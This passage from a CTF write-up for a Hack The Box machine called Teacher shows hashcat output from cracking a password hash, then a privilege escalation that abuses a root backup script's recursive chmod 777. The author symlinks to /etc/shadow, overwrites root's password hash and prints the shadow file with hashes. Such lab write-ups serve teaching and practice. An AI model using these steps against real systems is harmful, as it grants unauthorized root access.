 ```shell
Speed.#1.........: 75175 H/s (1.31ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 28672/88397 (32.44%)
Rejected.........: 0/28672 (0.00%)
Restore.Point....: 24576/88397 (27.80%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: endosperm -> fontaine
Started: Sun May 17 12:18:21 2020
Stopped: Sun May 17 12:18:46 2020
matt@kali:~/htb/teacher$ 
```

I was easily able to crack the hash, and the gained credentials allowed me to log in as the `giovanni` user account.

As the `giovanni` user, I inspected the contents of their home directory. On its own, the home directory didn't give away too much information. However, upon reinspection of the `backup.sh` file, I noticed a logical error in its code:

```shell
giovanni@teacher:~$ cat /usr/bin/backup.sh
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
```

Ignoring all of the unnecessary details, the problem is that the script moves to the `tmp/` folder and recursively grants global read/write access to all files within directory. This can be abused by creating a symbolic link (symlink) to any file or directory one wishes to access. There are many paths to privilege escalation from here. One could simply create a symlink to the `/root` directory, grab the flag, and call it a day. However, my goal was to get a root shell, so I decided to create a symlink to `/etc/shadow`, back up the original copy, overwrite root's hash with giovanni's hash, log in as root, and restore the original `/etc/shadow` file from backup. In a real (mature) environment, this would certainly set off some alarms. But hey, it's a CTF challenge.

```shell
giovanni@teacher:~/work$ ls
courses tmp
giovanni@teacher:~/work$ ln -s /etc/shadow tmp/link
giovanni@teacher:~/work$ cp tmp/link shadow.backup
giovanni@teacher:~/work$ vi /etc/shadow
giovanni@teacher:~/work$ cat /etc/shadow
root:$6$RiDoH4VN$WamVNCkuoZyN1uM6hmyKKt6GwGWAamiQM3SYCrr5lmUYnmV7vpBNkYZCHqjh7UDtsdF8NbGjM7dJPIsxeFkrx0:17709:0:99999:7:::
daemon:*:17708:0:99999:7:::
bin:*:17708:0:99999:7:::
sys:*:17708:0:99999:7:::
sync:*:17708:0:99999:7:::
games:*:17708:0:99999:7:::
man:*:17708:0:99999:7:::
lp:*:17708:0:99999:7:::
mail:*:17708:0:99999:7:::
news:*:17708:0:99999:7:::
uucp:*:17708:0:99999:7:::
proxy:*:17708:0:99999:7:::
www-data:*:17708:0:99999:7:::
backup:*:17708:0:99999:7:::
list:*:17708:0:99999:7:::
irc:*:17708:0:99999:7:::
gnats:*:17708:0:99999:7:::
nobody:*:17708:0:99999:7:::
systemd-timesync:*:17708:0:99999:7:::
systemd-network:*:17708:0:99999:7:::
```